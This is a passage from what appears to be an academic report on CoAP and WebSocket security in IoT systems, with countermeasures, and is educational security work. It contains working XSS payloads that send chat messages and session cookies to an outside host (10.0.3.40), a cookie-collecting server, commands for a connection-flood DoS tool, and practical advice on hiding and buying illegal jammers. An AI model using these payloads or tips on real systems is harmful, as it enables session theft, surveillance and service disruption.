	In an IoT environment, the data sent from a constrained device to a server are, most of the time, the measures taken by a sensor or an array of sensors; the server collects this data, which will be sooner or later processed in some way.\newline
	In this particular scenario an attacker may have nothing interesting to steal in the communication between a device and the server, but it is important to avoid the forwarding of fake messages.\newline
	Another possible scenario is the opposite of the previous one: the server sends data to devices. This could be the typical scenario of a production line, where the server sends the parameters in order to customize the production. Here  it is quite important to keep the parameters secure in order to avoid industrial espionage that could advantage competitors.\newline

	\subsection{Denial of Service}
	In this section we analyze possible denial of service attacks on both client and server side.
	
	\paragraph{DoS on the client}
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img0.png}
		\caption{Example of possible DoS on the client side.}
		\label{fig:coap-vuln0}
	\end{figure}
	A denial of service can be carried out as illustrated in Figure \ref{fig:coap-vuln0}.\newline
	
	We assume the following:
	\begin{itemize}
		\item The attacker is capable of intercepting messages.
		\item The attacker can respond faster than the server.
		\item The client is badly programmed and will block if it cannot send the data successfully.
	\end{itemize}

	For the client we assume the following behavior:
	\begin{lstlisting}
	//Language: pseudo-code
	
	var measure=takeMeasure();
	
	while(send(measure,server));
	
	//perform other tasks
	\end{lstlisting}
	
	If the attacker intercepts a CON message, and can forge a RST message with a spoofed IP pretending to be the server, the client will be tricked and could not proceed with the other tasks.\newline
	In this case we exploited the fact that the client assumes that its request will be fulfilled sooner or later, and
	without taking into account that an attacker could perform a DoS.\newline
	
	Even if the server sends an ACK it will be ignored because the client would have already received the RST message, so the ACK is ignored.\newline
	
	In this particular example, we are carrying out the denial of service on the constrained device, but there are two interesting consequences to discuss:
	\begin{enumerate}
		\item The constrained device will try definitely to send the data; this could flood the server with the same data for a very long time.
		\item The constrained device is likely to exhaust its energy quickly, due to the continuous attempts of sending data and receiving the proper response from the server.
	\end{enumerate}

	In the first case, if the server stores the received data it may exhaust its memory or use a old data that is considered fresh; suppose that we are dealing with a nuclear reactor that has a thermometer. If at 9.00 AM the temperature was correct but it increased a lot after one hour, then the server will still receive the old one and will not notice the imminent risk that could lead to a disaster if a counter measure is not taken in time.\newline
	
	In the second case, if the constrained device exhausts its energy then the server may not proceed with its task due to the lack of data.\newline
	
	In a constrained device, a low level language is likely to be used, this means that lots of convenient features likes asynchronous methods or callbacks are not implemented. So if you want to use them, you must take care of implementing them by yourself taking account that the resources are limited. A simpler approach on the code may be mandatory, making ,for instance, the infinite while loop, which tries to send the data, the only possible viable way.\newline
	
	\subsection{DoS on the server}
	Performing a DoS on the server is a bit easier because the attacker does not need to intercept messages but can simply send a lots of messages to the server.\\
	Anyway, a server can be difficult to turn it down, because its computational power.\\
	
	We assume that a server has a computational power that is higher than a common desktop computer, so an attacker may not be capable of carrying out a successful DoS alone, it may need one or more machines to perform a distributed denial of server in order to overwhelm the server.\newline
	Figure \ref{fig:coap-vuln1} illustrates the difference between a DoS and DDoS.
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img1.png}
		\caption{On the left the schematization of a DoS, on the right a DDoS.}
		\label{fig:coap-vuln1}
	\end{figure}

	Avoiding a DoS is not simple, the fact that CoAP uses UDP as underlying protocol makes the process of performing DoS simpler because UDP is a fast protocol by design.\newline
	
	Identifying a DoS is difficult because a server may receive lots of requests that are totally legal, for example: when a new service is made available to the public, it is possible to experience a DoS because the server is not capable of handling the amount of requests, this happens when the development team underestimates the number of users interested in the new service.\newline
	Blocking incoming request from a certain IP is not a good idea because NAT (Network Address Translation) is massively used, thus different clients could be identified by the same IP when they reach the server. So by blocking a certain IP address some legitimate user may not be able to reach the server.\newline
	While dealing with an IoT system, the simplified architecture of the system could be the one illustrated in Figure \ref{fig:coap-vuln2}, where the CoAP server does not communicate directly with the client. In this particular case blocking some IP addresses could be a good choice, if the CoAP server is designed to communicate only with the constrained devices and the HTTP server, then there is no need to allow communication from other IP addresses.\newline
	Anyway, the HTTP server may be vulnerable to a DoS attack, and by attacking it, it could be possible to generate a high traffic between the two servers and create a denial of server even on the CoAP side.\newline
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img2.png}
		\caption{Possible architecture of an IoT application.}
		\label{fig:coap-vuln2}
	\end{figure}
	
	IoT systems that deal with serious tasks like health monitoring, or the previous example of the nuclear reactor, must have DoS prevention system in order to continue the execution of the main task.\newline
	It could be a good idea to isolate the IoT system from the Internet in order to avoid incoming unwanted request, the HTTP server will always be reachable, but if it sends too much requests to the CoAP server, then it should be blocked for a certain amount of time. Of course, this will make the system unavailable, but at least the main task is preserved.\newline
	Mixing this idea with the well-known technique used to reduce the effects of DoS on an HTTP server could lead to a system that is resistant to DoS attacks.\newline
	
	\subsection{UDP flood}
	UDP flood is a special DoS attack, which exploits the UDP protocol; when a UDP datagram reaches its recipient, then the recipient checks if there is an application listening on a specific port for this particular packet.\newline
	If an application is listening, then it receives the packet, otherwise an ICMP Destination Unreachable packet is sent back to the sender.\newline
	
	With IPv4 the maximum UDP packet size is 65535 bytes, if an attacker starts to send a huge amount of packets to a recipient, he could easily flood the network.\newline
	Of course, when the recipient receives a message, it will reply with an ICMP Destination Unreachable packet, which will generate other traffic in the network.\newline

	A constrained device using CoAP could be vulnerable to this particular attack, as we know CoAP is based on UDP, thus the device could be the target of a UDP flood attack, and due to the limited computational resource, it would crash quickly.\newline
	
	A firewall can avoid or mitigate this attack, by simply blocking unwanted network traffic; however, the firewall could fall victim of this attack instead of the host, if it is not capable of handling a huge amount of traffic.\newline
	
	\subsection{Proxy as man in the middle}
	A proxy is a man-in-the-middle between the client and the server, which could intercepts messages and manipulate them.
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img3.png}
		\caption{Man in the middle attack on CoAP.}
		\label{fig:coap-vuln3}
	\end{figure}
	
	Figure \ref{fig:coap-vuln3} illustrate where a corrupted proxy is placed, in order carry out a man in the middle attack.\newline
	
	In order to act as a man-in-the-middle an attacker should be capable of intercepting messages and avoid the forwarding of real messages to the server.\newline
	If the constrained network has a legitimate proxy, the easiest way is to take control of it in some way, since installing a physical proxy could not be feasible or may be easy to detect.\newline
	
	Another important thing to highlight is that the protocol does not enforce the proxy which receives an encrypted message from a client, must forward the message to the server in an encrypted way.
	Figure \ref{fig:coap-vuln4} illustrates the situation.\newline
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img4.png}
		\caption{Insecure communication between a client and a server with a proxy in the middle.}
		\label{fig:coap-vuln4}
	\end{figure}
	
	In this case the communication is secure only on one side, but the fact that it is not secure on the other side makes it completely insecure, so an attacker could simply exploit this behavior in order to leak information from the communication if the attacker is capable of intercepting messages.\newline
	
	\subsection{Cache poisoning}
	If an attacker has taken control of a proxy, then it could manipulate its cache by caching a response forever, then clients will then receive outdated messages that could lead to wrong behavior.\newline
	Otherwise if the attacker has found vulnerabilities on the client, and it is possible to trigger them with a particular response, it could cache a special response that may lead to the crash of the constrained device or to unexpected behavior.
	
	\subsection{Random number generator}
	The CoAP protocol specifies that a token should be generated with the aid of a secure pseudo-random number generator, in order to avoid trivial and predictable token.\newline
	However, this is not possible in all situations; a secure pseudo-random number generator needs a good source of entropy, but a constrained device may lack this source.\newline
	
	Using an insecure random number generation could lead to predictable token, a simple and common PRNG could be implemented with a linear congruential generator which is defined as:
	
	\begin{align*}
	x_{n+1}=(a\cdot x_n+c)\mod m
	\end{align*}
	Where $m$ is the modulus, $a$ is the multiplier and has values in $(0,m)$, $c$ is the increment and has values in $[0,m)$.
	A linear congruential generator can be cracked easily by simply observing its output, as demonstrated \cite{rng}. \newline
	If a constrained device is known to lack a good source of entropy, it must not be used for process where this entropy is needed, for instance: if a cryptographic key is needed, then it must be generated on another system and then added to the device during the manufacturing phase.
	
	\subsection{Device and resource discovery}
	CoAP has a device and resource discovery features, they are extremely important in M2M application where, most of the time, the human hand is needed only during the deployment of the system.\newline
	
	In order to discover a CoAP server, the client must either know about the resource ahead of time, or support multicast CoAP.\newline
	A server is discoverable if it listens on the CoAP multicast address \texttt{224.0.1.187} for IPv4, \texttt{FF05::FD} for IPv6 on the default port 5683.\newline
	If a client sends a request for the CoAP resource \texttt{/.well-known/core} it should receive a response, from every reachable CoAP server on the local network.
	If an attacker can create its own CoAP server on the network, then it could act as malevolent host in the network, or even acting as a ``legitimate'' server.
	A possible attack scenario is illustrated in Figure \ref{fig:coap-vuln5}.
	
	\begin{figure}
		\centering
		
\includegraphics[width=5cm]{coap-vuln-img5.png}
		\caption{Example of resource discovery attack.}
		\label{fig:coap-vuln5}
	\end{figure}
	
	The attacker acts as a legitimate server and performs a DoS on the legal CoAP server in order to make it unreachable to the CoAP client, that tries to discover new devices.\newline
	In this way the attacker's device is the only one that can be discovered by the client;so he can trick the client and act as the legitimate server.\newline
	If we are in a scenario where the server sends parameters to a product line, and  real the server can be replaced by a malevolent version, then he can control the product line at will.\newline
	
	Dynamic device and resource discovery is useful, because there is no need to manually configure the available CoAP server, but if not done with the proper care it could lead to the scenario illustrated in Figure \ref{fig:coap-vuln5}.
	In order to avoid this kind of attack, it can be useful to allow communication only with authenticated server, but of course the convenience of dynamic discovery is lost.\newline
		

	\subsection{Physical attack}
	While dealing with physical attacks we assume the following:
	\begin{itemize}
		\item The attacker has full access to the constrained devices and in general to the entire network.
		\item The constrained devices are in an unattended environment (close or open, it makes no difference).
		\item The CoAP server and other server machines are in a closed environment, little surveillance is assumed.
	\end{itemize}
	
	\subsection{Denial of Service}
	If an attacker has physical access to constrained devices or a main CoAP server, then he can carry out a denial of service in a variety of way.\newline
	
	\subsubsection{Jamming}
	This DoS can be carried out on wired and wireless network and it requires a jammer.\newline
	A jammer is a device which transmits signals on the same radio frequencies of the target, making the communication impossible by preventing them from receiving and transmitting in the jammer’s operating range.\newline
	In order to carry out a DoS on a wireless constrained network which uses IEEE 802.11 we simply need to use a jammer that works on the 2.4GHz and 5GHz frequency range.\newline
	
	For the fact that CoAP is based on UDP, there could be high packet loss and lots of retransmission, for this reason a jamming DoS could be hard to notice.\newline
	
	A jammer could have different dimension based on how wide is its operating range, if the constrained network you want to take down is small you can use a small one that may be hidden in the environment, but remember that sooner or later the battery will exhaust and the DoS will cease; you can also use a big one with a very wide operating range, you may even place it in a different building and carry out the DoS without caring about battery life, but in this case you could take down other network and making your attack more noticeable.\newline
	
	\emph{Note:} in most of the countries, jammers are illegal and can be used only by the army or the police, but if you want you can find jammers on sale on the Internet easily, even on Amazon, but for professional tools it is better you call on to specialized retailers.\newline
	
	There is no general countermeasure against jammers, in the case of wired network, shielded cables can be used but for a wireless network there is no way to avoid a jamming DoS, the only way is to find out the source and shut it down.\newline
	
	\subsubsection{Destroying the device}
	Another simple DoS could be carried out by destroying the devices, in the way you prefer.\newline
	Of course, this approach is not stealth at all: when someone notices the malfunctioning and investigates on the environment, he will find out the smashed devices, while in the case of a jammer it could be difficult to spot the source of the problem.\newline
	Of course this technique could be applied even on the CoAP server or other machines, but assuming the server is in an environment where the attacker is more likely to be spotted, so it could be risky.\newline
	
	If the constrained network is wired, then an attacker could simply cut the cables and carry out the DoS.\newline
	
	The easiest way to secure constrained device is to turn the unattended environment into a secure environment in some way. If we are dealing with an open environment, building a fence with barbed wire around the device could be a solution, if the environment is closed then you could place a security camera or restrict the access to the area.\newline
	
	\subsection{Corrupting a device}
	For this attack we assume that the network uses the NoSec mode.\newline
	If the attacker has physical access to a device, he could corrupt it in order to act as malevolent node by sending spoofed requests around the network in order to create congestion in the constrained network.\newline
	
	The standard scenario in a constrained network is the following:
	\begin{itemize}
		\item Constrained devices send data to a CoAP server.
		\item The CoAP server receives request from the constrained devices.
		\item A desktop application communicates with the system in order to retrieve data.
	\end{itemize}

	Usually the purpose of a constrained device is sending data to the server and it may not be capable of receiving huge amount of data as response, so the response to a GET request could be difficult or impossible to handle.\newline
	
	If a corrupted device starts sending spoofed request to a CoAP server it could perform an amplification attack and redirect huge amount of data to the constrained devices in the network.\newline
	
	An attacker could also exchange a device with a malevolent one, designed to act as describe before.\newline
	
	\subsection{Forgery and data stealing}
	For this kind of attack we mean the forgery of a constrained device in order to steal some data, in this case we are interested in being silent as possible in order to avoid being noticed.\newline
	
	If we are only interested in stealing data only once, it may be not necessary to forge a device.\newline
	
	\paragraph{Cloning}
	If an attacker has physical access to a device, he may be able to clone it in order to place a modified version in the environment and act as a legitimate device.\newline
	Cloning a device could be an easy task but at the same time a difficult one, for example: on the market there are tools that can copy car keys in few seconds, but in order to clone a device the attacker may need to know perfectly its structure.
	It is important to highlight that every device is different, so there is no general techniques to clone a device.\newline
	
	\paragraph{Firmware replacement}
	Updates of constrained devices are typically carried out over-the-air; an attacker could get in the way and install malicious software if this procedure has no protection. f successful, this attack could even corrupt an entire network.\newline
	
	When we install an update it is important to verify if the update is legitimate, otherwise we could accept malevolent update from an attacker, while dealing with constrained devices the computational power available could be not enough to verify an update, as we said a constrained device could not be able to verify the authenticity of a signature, so it is plausible to assume that the device could not verify an update.\newline
	
	The network could be insecure for a variety of reasons: simply for hardware limitations or by negligence of the network administrator; a firmware replacement attack could be easy to carry out in this condition and the consequences can be serious. If the new firmware, designed by the attacker, blocks every new update, the only way to sanitize a corrupted network is to manually replace the firmware by flashing the memory of each device, this could be costly and time consuming. Another possible scenario is an attacker that crafts a firmware that steals data silently; it may require lots of time to be noticed by someone, and if the data are valuable it can be a loss of money for a company.\newline
	
	\emph{Note:} even if the communication on-the-air is encrypted, the attacker could know the keys used to communicate, so he can still carry out the attack.\newline
	
	Compared to the cloning attack, the firmware replacement attack could be easy to carry out and it only requires writing a firmware and uploads it on devices.\newline
	
	In order to securely update a device, it must be capable to verify a signature in order to check that the update is legitimate, if the device is not powerful enough an alternative way could be to update it manually by flashing the memory, but it may require some time and could be costly.\newline
	
	\paragraph{Extraction of security parameters}
	As we know a constrained device may have embedded keys and other security parameters on it, if an attacker has physical access to the device and is capable of reading its memory, he can steal keys or other security parameters.\newline
	This could be done easily with a server/desktop computer with a cold boot attack, but we are dealing with constrained devices and the physical memory may not be so easy to handle. With servers/desktop computers we have the DDRX standard and it is easier to design a special tools for dumping memory.\newline
	
	If there is no easy way to access the memory, this kind of attack could be difficult to carry out.
	On the other hand, if the device has a USB port or any other standard I/O port it could be trivial to steal sensitive data.
	
	
	\section{WebSocket vulnerabilities and attacks}
	In this section We analyze the vulnerabilities of WebSocket showing example of attacks when possible; note that
	all the examples use an unencrypted communication channel, even if it may seems trivial to use the encrypted channel
	it is not: there are lots of unencrypted applications and these examples will show you why it is important to use
	the encrypted channel.\\
	
	\subsection{Lack of client authentication}\label{sssec:lack}
	WebSocket does not specify any authentication mechanism; this allows the developer to use any suitable method.
	From a certain point of view, this is good because a developer is free to choose the method that suits well his project, on the other hand being so free could lead to flaws in the code.\newline
	The employed authentication method could be vulnerable or implemented in the wrong way, or even not implemented.\newline
	The straightforward ways are the following:
	\begin{itemize}
		\item Cookies
		\item HTTP Authentication
		\item TLS Authentication
	\end{itemize}

	But the developer could implement a homemade authentication method, if not implemented with care this could lead to vulnerabilities.\newline
	
	When you are dealing with WebSocket in a browser it is important to highlight that there is no way to add headers to the handshake message, it is possible to add the \texttt{Authorization} (but only for basic authentication), \texttt{Sec-WebSocket-Protocol} and \texttt{Cookie}.\newline
	Thus, for instance, it is not possible to use the Bearer token authentication or other authentication mechanism different from the basic authentication.\newline
	
	Let us analyze a wrong authentication method that is exploitable. Note that the example is made with ws, and not wss, because it is useless for this example to show how to add a certificate in a browser.\newline
	
	The proposed system is designed to show a page that uses a WebSocket only if the user is logged in, basically the security mechanism is based on the assumption that the WebSocket service will be only used inside the browser; we will now show that this mechanism is not secure at all.
	
	\emph{Note:} this is a toy example that allows the login with the following credential: \texttt{admin admin}, it is not supposed to be a secure login procedure, it is unsecure but it works well in order to make this example easy to reproduce.
	
	This example consists of the following files:
	\begin{itemize}
		\item login.php
		\item reserved.php
		\item Reserved.java
		\item external.js
	\end{itemize}
		
	\begin{lstlisting}[language=php]
	//reserved.php
	
	...
	
	<script>
		var placer=document.getElementById("placer");
		var ws=new WebSocket("ws://localhost:8080/");
		ws.onmessage=function(event){
			var elem=document.createElement("b");
			elem.textContent=event.data;
			placer.appendChild(elem);
		}
	</script>
	
	...

	\end{lstlisting}
	
	\begin{lstlisting}[language=Java]
	//Reserved.java

	...

	public class Reserved extends WebSocketServer  {
		
		...
		
		@Override
		public void onMessage(WebSocket arg0, String arg1) {
			arg0.send("message received!");
		}
		
		@Override
		public void onOpen(WebSocket arg0, ClientHandshake arg1) {
			arg0.send("this message should be read only by Admin");
		}

	}
	
	\end{lstlisting}
	
	The server is defined as a class that extends \texttt{WebSocketServer} and implements the following methods:
	\begin{itemize}
		\item \texttt{onClose(...)}
		\item \texttt{onError(...)}
		\item \texttt{onMessage(...)}
		\item \texttt{onOpen(...)}
	\end{itemize}
	For our example the only two implemented methods are \texttt{onOpen(...)} and \texttt{onMessage(...)}.
	
	The login page shows a login form and, when the login button is pressed, it sends a POST request to the reserved page in order to verify the login credentials and access the reserved page. If the credential are correct the access is granted, otherwise the user is redirected to the login page.\newline
	The WebSocket server sends a message when it receives a new connection and when it receives one from the client.\newline
	If the user is not able to login then we may think that the reserved data sent by the WebSocket server is safe from prying eyes, but it is not true, in fact we can create our custom client and connect to the WebSocket server without problems.\newline
	
	\begin{lstlisting}
	var WebSocketClient = require('websocket').client;
	
	var client = new WebSocketClient();
	
	...
	
	client.on('connect', function(connection) {
		connection.on('message', function(message) {
			if (message.type === 'utf8') {
				console.log('Received:'+ message.utf8Data);
			}
		});
	});
	
	client.connect('ws://localhost:8080/');
	
	\end{lstlisting}
	
	Unsurprisingly the output is:\\
	\texttt{Received: 'this message should be read only by Admin'}.\newline
	
	In order to reproduce this example these are the requirements:
	\begin{itemize}
		\item the following Java library for server side WebSocket:\url{https://github.com/TooTallNate/Java-WebSocket}
		\item The following Node.js library for client side WebSocket: \url{https://github.com/websockets/ws}
		\item A web server that support PHP like Apache; for an easy install on Windows, XAMPP is surely the best option: \url{https://www.apachefriends.org/it/index.html}
	\end{itemize}
	
	\subsection{Lack of data validation}
	
	\paragraph{Example 1} The data validation task is not done by WebSocket but by the application itself, this could lead to flaws in the code.\newline
	The validation should be done on both sides: client and server.\newline
	The simplest attack that can be performed by exploiting this lack of validation is a JavaScript code injection (client side).\newline
	A simple example is the following vulnerable web chat.\newline
	
	This example consist of the following files:
	\begin{itemize}
		\item page.html
		\item chat.js
		\item ChatServer.js
	\end{itemize}

	\begin{lstlisting}
	//chat.js
	var chatbox=document.getElementById("chat");
	var i=0;
	
	function addMsg(msg){
		chatbox.innerHTML+="<div>"+msg+"<div><br>";
	}
	
	...
	
	\end{lstlisting}
	
	\begin{lstlisting}[language=Java]
	// ChatServer.java
	
	...
	
	public class ChatServer extends WebSocketServer  {
	
		private WebSocket arr[]=new WebSocket[2];
		private int i=0;
		
		...
		
		@Override
		public void onMessage(WebSocket arg0, String arg1) {
			if(arg0.getRemoteSocketAddress().equals(arr[0].getRemoteSocketAddress())){
				arr[1].send(arg1);
			}else{
				arr[0].send(arg1);
			}
		}
		
		@Override
		public void onOpen(WebSocket arg0, ClientHandshake arg1) {
			if(i>arr.length){
				arg0.close();
				return;
			}
			arr[i++]=arg0;
		}
		
		...
	}
	
	\end{lstlisting}
	
	The HTML page shows the messages and a little form to write and send a message.\newline
	The JavaScript code handles the interface and the WebSocket connection, when the button is clicked by the user, the message is added to the chatbox and sent to the WebSocket server that will forward it to the other client (if present).\newline
	The Java code creates a WebSocket server that handles only two connections and simply acts as a proxy between the two clients.\newline
	Neither the client nor the server performs a check of the incoming data, from the point of view of the server it is not a problem, it does nothing more than simply forwarding the message to the other client, but we could say that it is not guaranteeing a secure communication between the two clients.\newline
	On the other hand the client is severely at risk, in fact if client A is chatting with client B, and client B sends the following message:\newline
	
	\begin{lstlisting}[language=html]
	<img src=1 hidden onerror=”alert('HACKED!!')”>
	\end{lstlisting}
	
	Then an alert box will appear on the other browser (even on the client which sent the message).
	In this case the other client is left unharmed, but if the code placed inside the \texttt{onerror} callback is a bit more complex it can create serious harm to the client, for example we could open another WebSocket connection in order to spy the user, for example:
	
	\begin{lstlisting}[language=html]
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8080/'); function send(){var msg=document.getElementById('msg').value;addMsg(msg);ws.send(msg);badws.send(msg);} var tmp=document.getElementById('send'); tmp.onclick=send;">
	\end{lstlisting}
	
	In this example we create a new WebSocket and define again the \texttt{send(…)} function, adding \texttt{badws.send(msg)} in order to forward the message to another server.
	The code for the malicious server is very similar to the code of the legitimate WebSocket server, it only writes on the console the received messages.
	
	In order to avoid trivial attacks like this one, the client should always check incoming data, and sanitize it properly.
	Another possible way to avoid an attack like that is to perform a sanitization on server side; in such a way the server acts as a proxy that secure the messages. Of course, the client must still check the incoming data, assuming that the server is not compromised is a strong assumption.\newline
	
	In order to reproduce this example you only need the following Java library for server side WebSocket: \url{https://github.com/TooTallNate/Java-WebSocket}.
	
	
	\paragraph{Example 2} We now show an example that could leak important information contained in a cookie, for example the session id. If an attacker is capable of stealing your id, he can access the website with your credentials without the need of knowing your username and password.\newline
	
	\texttt{Note:} again the login procedure is not secure, the focus is not on it and it is as simple as possible in order to make this example easy to reproduce.\newline
	
	The login page is the same seen before in example 1, the reserved page is similar but it allows the access with the following credentials:
	\begin{itemize}
		\item \texttt{pippo pippo}
		\item \texttt{pluto pluto}
	\end{itemize}
	The page includes the code of the previous chat example, the Javascript code is the same and even the Java server code.\newline
	
	In order to steal the cookie we need to send the following message:
	\begin{lstlisting}
		<img src=1 hidden onerror=" document.location='http://10.0.3.40:8090/stealer?v='+document.cookie;">
	\end{lstlisting}
	
	
	The cookie is sent over, so the malevolent server is capable of stealing it.\newline
	
	\begin{lstlisting}
		//
		var http = require('http');
		
		var server = http.createServer(function (req, res) {
			console.log("Cookie retrived:"+req.url);
			res.end('! HACKED !');
		})
		
		server.listen(8090,'10.0.3.40');
	\end{lstlisting}
	
	
	The output of the server is something like:
	
	\texttt{Cookie retrived:/stealer?v=PHPSESSID=vcqqs219ns7b4naui67bmug}.\newline
	
	Opening a new WebSocket will not automatically give you the cookie, in fact the cookie is sent over if the host is the same of the web page, and our malevolent server is likely to be on a different address. Using the \texttt{document.cookie} in order to create a false cookie is not that easy because the browser avoids the creation of cookie related to other domains.
	But it is possible to send the cookie via WebSocket with a simple invocation of the send(…) method, in fact with this script it is possible to trick a client:
	
	\begin{lstlisting}
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8090/'); badws.onopen=function(event){ var tmp=document.cookie;badws.send(tmp);}">
	\end{lstlisting}

	
	The malevolent WebSocket code is equal to the other just seen before; it simply receives the cookie and stores it.\newline
	This approach is better because it is silent; the previous one was easy to notice by a user simply because the page in front of him changed.\newline
	Note: this is a special because the cookie used by PHP via JavaScript, there are case where a Cookie cannot be retrieved by \texttt{document.cookie} and this does not allow an attacker to steal precious data from a client.
	In order to avoid the retrieval of a cookie by JavaScript, it must be marked with \texttt{HttpOnly} flag.
	Remember that even if you store data in the \texttt{SessionStorage} you are not safe at all because an attacker could access it.
	With these two examples is clear how data validation is important and must be performed in order to avoid serious attacks.
	
	\subsection{Denial of Service}
	There are various implementation of server side WebSocket and we will see which one is vulnerable and which is not.\\
	These are the implementations taken under examination:
	\begin{itemize}
		\item Java  - \url{https://github.com/TooTallNate/Java-WebSocket}
		\item Node.js - \url{https://www.npmjs.com/package/websocket}
	\end{itemize}

	Our setup to simulate a DoS is the following: one server, one client which performs the attack, another client which test the availability of the service.\\
	The server machine has the following technical specifications:
	\begin{itemize}
		\item OS: Windows 10 Pro 64-bit
		\item Processor: Intel Core i5 3230M 2.60Ghz (2 Core, 4 Thread)
		\item Memory: 4GB RAM DDR3 798Mhz
		\item Network adapter: Broadcom 802.11n Network Adapter - IEEE 802.11 a/b/g/n
	\end{itemize}

	While the attacker machine:
	\begin{itemize}
		\item OS: Windows 10 Pro 64-bit
		\item Processor: Intel Core i5 3570K 3.40Ghz (4 Core, 4 Thread)
		\item Memory: 8GB RAM DDR3 666Mhz
		\item Network adapter: Linksys RangePlus Wireless USB Network Adapter - IEEE 802.11 b/g
	\end{itemize}

	The technical specifications of the legitimate client are not important because it just needs to send one message to the server.\\
	As you might have notice, the server machine has less power compared to the attacker, this choice has been made in order to simulate a DoS;
	the attacker is, more or less, two times powerful.\\
	Also note that the network adapter used are not top notch, this means that the DoS attack is more easy to carry out due to the low bandwidth.\\

	The \emph{first test} is about the Java library.

	For this test we use three programs:
	\begin{itemize}
		\item \texttt{javaAtt.jar} - tries to perform a DoS by starting four threads, each one opens lots of connections.
		\item \texttt{javaServer.jar} - create a server that simply sends back messages.
		\item \texttt{testClient.jar} - opens a connection and sends a message to the server. 
	\end{itemize}

	When the server is not under attack the response time is about 47ms, while the server is under attack the legitimate client is not even able to
	establish a connection; the attack was successful but we were not able to crash the application.\\
	The service was made unavailable with just 58 connections.\\

	To start the program use the following command in a shell:
	\begin{lstlisting}
		java -jar javaServer.jar <ip>
		java -XmX8G -jar javaAtt.jar ws://<server-ip>:8080
		java -jar testClient.jar ws://<server-ip>:8080
	\end{lstlisting}

	Just for curiosity we tried to switch the server and the attacker and the results were interesting. When the connection counter reached 1098
	the legitimate client was able to open a new connection and receive a response, but with 42391ms of latency.\\
	The maxinum amount of connections was 2177, the server was still able to send a message back to the client but with a very high latency.\\
	Even if we were not able to avoid the legitimate client to establish a new connection, the latency was too high, a real application
	will not work properly with a latency like that. We can consider it a success.\\

	The \emph{second test} is about the Node.js library; we used again \texttt{javaAtt.jar} to carry out the attack, while on the server we used \texttt{server.js}.\\
	When the server was under attack the legitimate client was not able to establish a new connection, the server reached a maxinum of 1070 connections 
	but we were unable to crash it.\\
	These results should highlight that the Java library is not very efficient because it was overwhelmed with just 58 connections.\\
	We also noted that this library sometimes drops some connections in order to make room for new ones.\\
	

	\subsection{Countermeasures}
	In order to make WebSocket more secure there are some precautions we must take into account: first of all, the usage of \texttt{wss} instead of \texttt{ws}; if the
	communication is encrypted via SSL nobody is able to read or change the communication. Of course attacks are still possible due to flaws in the SSL library or misconfiguration;
	also take in mind that the communication channel is persistent, so the overhead introduced by SSL is heavy only at the beginning and then becomes negligible~\cite{koch2013websockets}.\\
	Take in mind that even if you use SSL, you should always perform a check of the message in order to avoid code injection or similar attack.\\
	
	Even if it has some limitations, the \texttt{Origin} header is useful to avoid undesirable connection from browsers. However; always take in
	mind that if the client is not a browser it can arbitrarly set the content of the header to the one accepted by your server, so don't trust a request only because it has the proper
	value in the header.\\
	
	When you choose to develop an application that relies on WebSocket communication, be sure to use libraries that are up to date; browser vendors keep their products up to date
	but on the server side this is not so easy, there may be some implementations out of date that may be vulnerable.\\
	
	As WebSocket does not apply with the Same-Origin-Policy like Ajax it is possible that an attack introduce a WebSocket connection in your application even if it
	does not use WebSocket at all, this is possible if your application has XSS vulnerabilities.\\
	In order to mitigate this problem, the Content-Security-Policy (CSP) comes to our help, the CSP allows communications only between the browser and the hosts specified in the
	\texttt{Content-Security-Policy} header, this can avoid trivial attacks.\\
	I want to highlight that CSP is useful only if the HTTP connection is secure (HTTPS), otherwise an attacker could perform a MitM attack and add a malicious header in order to allow
	connections to his server.\\
	
	
	\section{Best practices}
As an IoT application is designed as illustrated in figure \ref{fig:best0}, the development of an IoT application is split on two sides:
\begin{enumerate}
	\item IoT side - The part of the application that deals with sensors, devices and handles the communication between them and the main server.
	\item Client side - The part of the application that allows the final user to control the application.
\end{enumerate}


	\begin{figure}
